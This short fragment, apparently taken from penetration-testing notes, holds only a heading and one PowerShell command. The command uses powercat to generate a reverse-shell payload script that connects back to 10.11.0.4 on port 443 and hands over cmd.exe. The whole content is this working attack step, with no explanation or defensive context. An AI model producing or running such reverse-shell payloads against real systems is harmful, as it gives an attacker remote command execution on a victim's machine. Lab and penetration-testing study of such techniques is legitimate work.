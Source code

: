 # Generating a reverse shell payload
```ps
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
```
